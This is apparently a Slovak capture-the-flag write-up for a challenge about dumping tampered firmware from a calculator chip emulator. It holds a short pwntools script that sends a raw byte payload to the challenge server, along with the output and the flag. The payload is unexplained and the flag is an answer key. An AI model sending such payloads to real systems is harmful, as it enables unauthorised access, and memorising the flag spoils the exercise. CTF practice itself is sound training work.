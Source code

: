 # Zadanie

EN: The company Calcunova, once a trusted name in scientific calculators, is in crisis. Their latest flagship product, the Calcunova Sigma, has started producing incorrect results for basic operations. Engineers have confirmed: 2 + 2 sometimes equals 5. Worse, this isn't a random hardware fault. It’s deliberate. Someone has tampered with the calculator's firmware at the chip level. Internally, whispers point to a hostile rival — possibly even former employees who left under suspicious circumstances and now work for BitPrecision Inc., a direct competitor. The original firmware team is gone, and there are no copies of the firmware. Documentation is scarce. What remains is an emulator of the chip — unstable, but accurate. The company believes this emulator can be used to learn, how to dump and possibly analyze the corrupted firmware from the failing chips. Your emulator is working well (download it here), however it lacks the modified firmware. When you are confident you can extract the data from the emulator, you can proceed accessing the real hardware at exp.cybergame.sk:7041.

SK: Spoločnosť Calcunova, kedysi etablovaná značka vo svete vedeckých kalkulačiek, sa ocitla v kríze. Ich najnovší vlajkový produkt, Calcunova Sigma, začal produkovať nesprávne výsledky aj pri základných operáciách. Inžinieri potvrdili: 2 + 2 sa niekedy rovná 5. Čo je horšie, nejde o náhodnú hardvérovú chybu. Je to zámerné. Niekto zasahoval do firmvéru kalkulačky priamo na úrovni čipu. Vo vnútri firmy sa šepká o rivalovi, pravdepodobne dokonca o bývalých zamestnancoch, ktorí odišli za podozrivých okolností a teraz pracujú pre BitPrecision Inc., priameho konkurenta. Pôvodný tím tvorcov firmvéru je preč a firmvér sa nikde nezachoval. Dokumentácia je slabá. Čo zostáva, je emulátor čipu, nestabilný, ale presný. Spoločnosť verí, že tento emulátor možno použiť na to, aby sme sa naučili extrahovať z poškodených čipov firmvér. Tvoj emulátor funguje dobre (stiahni ho tu), ale neobsahuje modifikovaný firmvér. Keď si budeš istý, že vieš z emulátora extrahovať dáta, môžeš pokračovať a získať prístup k reálnemu hardvéru na exp.cybergame.sk:7041.

`exp.cybergame.sk:7041`

**Súbory**

- emulator

## Riešenie

Vzhľadom na nedostatok času z dôvodu doháňania pracovného a súkromého života doplním tento write-up neskôr, keď budem mať viac času. Túto úlohu som zvládol vďaka kombinácii ChatGPT, Gemini a Claude - hlave Calude v spolupraci s ghidrou a MCP.. Výsledok bol takýto skript.

```python
#!/usr/bin/env python3
from pwn import *

# Lokálna binárka (ak chceš testovať lokálne)
BIN = './emulator'
# Remote CTF server
HOST = 'exp.cybergame.sk'
PORT = 7041

# Voliteľné: ak chceš testovať lokálne
# p = process(BIN)

# Remote spojenie
p = remote(HOST, PORT)

# Payload (raw bytes)
payload = b"\xA2\x33\x00\x00\x00\xC8\xA6\x00\x00\x00\x3D\xA2\x30\x00\x00\x00\xFF"

# Pošli payload
p.send(payload)

# Prijmi odpoveď
data = p.recv(4096)

# Vypíš odpoveď (ignoruj nevalidné znaky)
print("Dostal som:", data.decode(errors='ignore'))

# Zavri socket
p.close()
```

Výstup

```
[x] Opening connection to exp.cybergame.sk on port 7041
[x] Opening connection to exp.cybergame.sk on port 7041: Trying 195.168.112.4
[+] Opening connection to exp.cybergame.sk on port 7041: Done
Dostal som: SK-CERT{51mpl3_j17_s0lv3d}
[*] Closed connection to exp.cybergame.sk port 7041
```

## Vlajka

    SK-CERT{51mpl3_j17_s0lv3d}
